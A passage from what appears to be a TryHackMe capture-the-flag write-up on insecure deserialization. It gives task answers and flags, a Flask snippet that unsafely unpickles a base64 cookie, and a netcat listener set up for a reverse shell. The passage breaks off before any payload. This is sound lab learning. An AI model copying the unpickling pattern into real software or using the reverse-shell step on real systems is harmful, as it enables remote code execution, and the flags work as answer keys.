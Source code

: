 ```
webapp.com/login
```

2. What is the acronym for the web technology that Secure cookies work over?

```
HTTPS
```

---
* **Cookie practical**: 

1. 1st flag (cookie value)

```
THM{good_old_base64_huh}
```

2. 2nd flag (admin dashboard), change the userType to admin

```
THM{heres_the_admin_flag} 
```

---
* **Code Execution**: 

* snippet code:

```py
# Serialize
cookie = {"replaceme": payload}

pickle_payload = pickle.dump(cookie)# Serialize the cookie
encPayloadCookie = base64.b64encode(pickle_payload)

resp = make_response(redirect("/myprofile"))
resp.set_cookie("encodedPayload", encPayloadCookie)
```

```py
# Deserialize
cookie = request.cookies.get("encodedPayload")

cookie = pickle.loads(cookie)# Deserialize the cookie
```

> This vulnerability exploits Python Pickle

---
* **The Exploit**: 

* Set up a netcat listener

```bash
nc -lnvp 9999
```
Because the code being deserialized is from a base64 format, we cannot just simply spawn a reverse shell. We must encode our own commands in base64 so that the malicious code will be executed

